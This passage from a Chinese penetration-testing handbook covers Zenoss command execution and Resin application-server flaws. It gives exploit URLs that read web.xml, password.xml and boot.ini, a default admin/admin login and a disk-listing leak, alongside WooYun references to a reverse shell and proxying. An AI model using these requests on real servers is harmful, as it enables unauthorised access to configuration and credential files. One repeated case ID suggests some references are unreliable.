 zenoss有一个commands功能，可以执行指令将指令修改为自己需要的即可），然后选中一台机器执行指令。

在wooyun上所见到的案例中，最令人头疼的也最难理解的是：

- wooyun-2013-019917 反弹获取shell

- wooyun-2013-019917
边界神器py版开启socks代理

（zone.wooyun.org/content/1693）

-  wooyun-2013-019917
端口转发（将代理端口转发到公网）


22 Resin任意文件读取 
====================================

22.1 基本知识 
-----------------------------

Resin：java应用服务器

CAUCHO公司产品，是一个非常流行的application server
，对server和JSP提供良好的支持，速度非常快直逼APACHE
SERVER。Resin支持负载均衡，可以增加web站点的可靠性。

22.2 漏洞利用 
-----------------------------

Resin的某个CGI程序实现上存在输入验证漏洞，远程攻击者可能利用此漏洞读取Web主目录下的任意文件。

- 任意文件读取：

配置文件：

http://ip/resin-doc/examples/ico-periodictask/viewfile?file=WEB-INF/web.xml

读取源码：

http://ip/resin-doc/examples/ico-periodictask/viewfile?file=index.xtp

读取password.xml

ip/resin-doc/examples/ioc-periodictask/viewfile?file=WEB-INF/password.xml


- resin文件包含漏洞shell (wooyun-2013-023139)

http://ip/Resin-doc/viewfile/?contextpath=C:\\&servletpath=&file=boot.ini


- resin弱口令

http://ip/resin-admin/status.php admin / admin


- resin版本过低，导致磁盘信息泄露

<http://ip/c:/>


22.3 实例演练 
-----------------------------
